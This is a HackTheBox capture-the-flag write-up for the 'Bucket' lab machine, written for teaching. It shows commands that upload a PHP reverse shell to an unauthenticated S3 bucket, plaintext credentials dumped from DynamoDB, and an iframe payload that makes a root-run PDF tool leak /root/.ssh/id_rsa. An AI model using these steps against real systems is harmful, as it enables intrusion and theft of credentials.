# HackTheBox – Bucket

- Write-Up Author: [Calvin Lai](http://security.calvinlai.com)

## **Question:**
> Bucket



## Background

Bucket is a Linux machine from HackTheBox, that is an Amazon Simple Storage Service (Amazon S3) bucket. This machine is required some basic knowledge on Amazon Cloud service, such as the AWS Command Line Interface (AWS CLI) and Database Service (DynamoDB) technique. 

After basic enumeration, you would found that the host table should be updated to include two host name bucket.htb and s3.bucket.htb before further enumeration. 

After used the web folder enumeration tools - gobuster,  health page was found which shown dynamoDB service was set up and run. The tool AWS CLI would be used for enumerating the AWS S3 and the dynamoDB. You would found that no authentication required to enquiry the API.  Finally, a database table named "users" was found and listed out three user credentials. It was very useful for later use 

The AWS CLI could be used to enumerate the bucket folder structure and upload a reverse shell php file. After obtained the reverse shell, a user account named "roy" was found which could be login by the password found above.  Got the user flag. 

Logon with this "Roy" account, I found the port 8000 was opened for the localhost connection, which was pointed to the /var/www/bucket-app/.  There is a PHP program owned by root, which used to print out a DB value to a PDF file. Making use of this program, the value of "/root/.ssh/id_rsa" SSH Private Key was output. 

Using this Private Key ssh connect to the bucket.htb, root privilege was obtained. 

130n@calvinlai.com

Target Machine: 10.10.10.212 

Attacker Machine: 10.10.14.8

## Write up
### 1. Service Scanning:

- Quick Pre-searching:

	

	```
	nmap -p- -T5 --min-rate=1000 10.10.10.212 -oG fkclai.nmap
	```

- Details Analysis:
	
	It was found that the service cannot be further enumerated. The port 80 was redirected to bucket.htb. Thus, updated the host table to include it.

	

	```
	/etc/hosts
	```

	

	```
	nmap -p $(grep -Eo '[0-9]{1,5}/open' fkclai.nmap | cut -d '/' -f 1 | tr -s '\n' ',') -sC -sV 10.10.10.212 -o nmap-result.txt
	```

- Enumeration strategies:
	1. Check Website Vulnerability  
	2. Check any hidden files/folders of the website
	3. Check the website

***
### 2. Enumeration:

Visit the website and read the page source, it was found that the s3.bucket.htb should be included in the host table before further enumeration
	


- Enumerating the folders at the websites

	Using the gobust to check the http://s3.bucket.htb and http://bucket.htb. It was found that there are three hidden folders under s3.bucket.htb, while nothing special return from http://bucket.htb. I paid more attention to the s3.

	

	```
	gobuster dir -u http://s3.bucket.htb -w /usr/share/wordlists/dirb/common.txt 
	```
	
	
	
	```
	gobuster dir -u http://bucket.htb -w /usr/share/wordlists/dirb/common.txt 
	```

	When visited the health folder, a dynamodb used by AWS was found in running status

	

- Enumerating the ASW environment S3.bucket.htb

	Before starting, install the [ASW command-line interface](https://docs.aws.amazon.com/cli/latest/userguide/install-linux.html) tool, and [config](https://linuxhint.com/install_aws_cli_ubuntu/)

	

	

- Enumerated the database dynamoDB
	
	Reviewed the [AWS document](https://docs.aws.amazon.com/cli/latest/userguide/cli-services-dynamodb.html),  we can query the table record using the following command, after "try and error", a table "Users" was identified and the list the value. However, those credentials cannot be login via SSH. 

	```
		root@kclai:~/Documents/ctf/htb/linux/18-HTB-Bucket# aws dynamodb scan --table-name users --endpoint http://s3.bucket.htb/
	{
	    "Items": [
	        {
	            "password": {
	                "S": "Management@#1@#"
	            },
	            "username": {
	                "S": "Mgmt"
	            }
	        },
	        {
	            "password": {
	                "S": "Welcome123!"
	            },
	            "username": {
	                "S": "Cloudadm"
	            }
	        },
	        {
	            "password": {
	                "S": "n2vM-<_K_Q:.Aa2"
	            },
	            "username": {
	                "S": "Sysadm"
	            }
	        }
	    ],
	    "Count": 3,
	    "ScannedCount": 3,
	    "ConsumedCapacity": null
	}
	```

- Enumerated the site structure s3.bucket.htb
	
	It does not require any login authentication on enquiry the site, I can list the folder structure and even copy the file. Thus, a reserved TCP shell file in PHP format was prepared and upload to the environment.

	

***
### 3. Gaining Foothold:

Using the pentestmonkey, php-reverse-shell, and prepared the return netcat port. Uploading PHP reverse shell to the server using the command **"aws --endpoint http://s3.bucket.htb/ s3 cp php-reverse-shell.php s3://adserver"**



```
root@kclai:~/Documents/ctf/htb/linux/18-HTB-Bucket/exploit# aws --endpoint-url http://s3.bucket.htb/ s3 cp php-reverse-shell.php s3://adserver/
upload: ./php-reverse-shell.php to s3://adserver/php-reverse-shell.php
root@kclai:~/Documents/ctf/htb/linux/18-HTB-Bucket/exploit# aws --endpoint-url http://s3.bucket.htb/ s3 ls s3://adserver/
                           PRE images/
2020-12-27 01:03:03       5344 index.html
2020-12-27 01:03:52       1069 php-reverse-shell.php

root@kclai:~/Documents/ctf/htb/linux/18-HTB-Bucket/exploit# curl http://bucket.htb/php-reverse-shell.php

```

- **Note: notice the machine is cleaning itself every 30 seconds, so need faster.**

I tried to access my PHP file at http://bucket.htb/php-reverse-shell.php using curl to speed up the process.  Finally,  I got the reverse shell and start the enumeration again



It was found that the user flag was saved at Roy's home directory (/home/roy) which cannot be accessed by this "www" account. Now, the target is the Roy account. 





There was a password list found above during enumerating the DynamoDB, tried to use those password to access the server via ssh. Finally, I got the password of Roy is **"n2vM-<\_K_Q:.Aa2"** 

```
root@kclai:~/Documents/ctf/htb/linux/18-HTB-Bucket/exploit# ssh roy@bucket.htb
roy@bucket.htb's password: 
Permission denied, please try again.
roy@bucket.htb's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-48-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 26 Dec 2020 05:16:15 PM UTC

  System load:                      0.03
  Usage of /:                       40.0% of 19.56GB
  Memory usage:                     20%
  Swap usage:                       0%
  Processes:                        189
  Users logged in:                  0
  IPv4 address for br-bee97070fb20: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for ens160:          10.10.10.212
  IPv6 address for ens160:          dead:beef::250:56ff:feb9:944d


91 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Sep 23 03:33:53 2020 from 10.10.14.2
roy@bucket:~$
```

Got the user flag



***
### 4. Privilege Escalation:

Using the [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) to start the enumeration, it was found that there the server is listerning to some interesting port.... let try it one by one.

```
roy@bucket:~$ netstat -tunlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:4566          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:39035         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -

```

The port 8000 returned an HTML page, after further enumeration on the source code, the document root should be the following path: /var/www/bucket-app/index.php





```

roy@bucket:/var/www/bucket-app$ ls -la
total 856
drwxr-x---+  4 root root   4096 Sep 23 10:56 .
drwxr-xr-x   4 root root   4096 Sep 21 12:28 ..
-rw-r-x---+  1 root root     63 Sep 23 02:23 composer.json
-rw-r-x---+  1 root root  20533 Sep 23 02:23 composer.lock
drwxr-x---+  2 root root   4096 Sep 23 03:29 files
-rwxr-x---+  1 root root  17222 Sep 23 03:32 index.php
-rwxr-x---+  1 root root 808729 Jun 10 11:50 pd4ml_demo.jar
drwxr-x---+ 10 root root   4096 Sep 23 02:23 vendor

roy@bucket:/var/www/bucket-app$ head -30 index.php 
<?php
require 'vendor/autoload.php';
use Aws\DynamoDb\DynamoDbClient;
if($_SERVER["REQUEST_METHOD"]==="POST") {
        if($_POST["action"]==="get_alerts") {
                date_default_timezone_set('America/New_York');
                $client = new DynamoDbClient([
                        'profile' => 'default',
                        'region'  => 'us-east-1',
                        'version' => 'latest',
                        'endpoint' => 'http://localhost:4566'
                ]);

                $iterator = $client->getIterator('Scan', array(
                        'TableName' => 'alerts',
                        'FilterExpression' => "title = :title",
                        'ExpressionAttributeValues' => array(":title"=>array("S"=>"Ransomware")),
                ));

                foreach ($iterator as $item) {
                        $name=rand(1,10000).'.html';
                        file_put_contents('files/'.$name,$item["data"]);
                }
                passthru("java -Xmx512m -Djava.awt.headless=true -cp pd4ml_demo.jar Pd4Cmd file:///var/www/bucket-app/files/$name 800 A4 -out files/result.pdf");
        }
}
else
{
?>
```
- Study on this Index.php

	This PHP had the following functions:
	1. It's looking for a POST request with data "get_alerts" (line 17 & 18)
	2. Create a new DynamoDB client (line 28)
	3. '[Scan](https://docs.aws.amazon.com/cli/latest/reference/dynamodb/scan.html)' for a table called alerts, then search for a title with the word "Ransomware"
	4. Prints the data from that table into a PDF using Pd4Cmd
	
	As the enumeration result of above, the "Alert" table does not exist. I am thinking that can I create this "alert" table and insert a record which I want..... 

- **Reference: [Amazon DynamoDB Documentation](https://docs.aws.amazon.com/cli/latest/userguide/cli-services-dynamodb.html)**

- Create AWS Table - "Alert"

```
aws dynamodb create-table \
    --table-name alerts \
    --attribute-definitions \
        AttributeName=title,AttributeType=S \
        AttributeName=data,AttributeType=S \
    --key-schema \
        AttributeName=title,KeyType=HASH \
        AttributeName=data,KeyType=RANGE \
    --provisioned-throughput \
        ReadCapacityUnits=10,WriteCapacityUnits=5 \
    --endpoint-url \
        http://s3.bucket.htb
```

- Add a record to the Table

What value should I add? Read the root.txt (/root/root.txt) directly [ actually, tested, and submitted], but this is not the rules of the game.  After googling, we can get the private key for the ssh login to gain the root access rights. Steal root ssh private key (/root/.ssh/id_rsa) is our objective. 

```

aws dynamodb put-item \
    --table-name alerts \
    --item '{
        "title": {"S": "Ransomware"},
        "data": {"S": "<html><head></head><body><iframe src='/root/.ssh/id_rsa'></iframe></body></html>"}
      }' \
    --return-consumed-capacity TOTAL \
    --endpoint-url http://s3.bucket.htb
```

- Start the game

	Steps: 
	1. Execute the command at my Kali machine to create the table 
	2. Execute the command at my Kali machine to add a record to the table
	3. Visit the page : ```curl --data "action=get_alerts" http://localhost:8000/```
	4. SCP the result.pdf file to my Kali machine: ```scp roy@$bucket.htb://var/www/bucket-app/files/result.pdf ./```

	

	The result.pdf: this is the private key of root SSH.

	

- Get Root

	1. Reformat the private cert and chmod to 600 at following: 

	```-rw------- 1 root root 2603 Dec 27 11:43 cert.ssh```

	

	2. ssh -i cert.ssh root@10.10.10.212

	


***
### 5. Conclusion:

Server misconfiguration is the major problem on this box. The error was found on the AWS S3 setting, that does not apply any authentication control on the service API. It makes the attacker to enquiry the server and upload reserve shellcode easily. 

Secondly, a plain text password was saved at the database table that made me gain the initial Foothold.

**We shall review the system configuration before deployed to public cloud environment.**

***
### 6. Reference Link

https://docs.aws.amazon.com/cli/latest/userguide/cli-services-dynamodb.html

https://docs.aws.amazon.com/cli/latest/userguide/install-linux.html
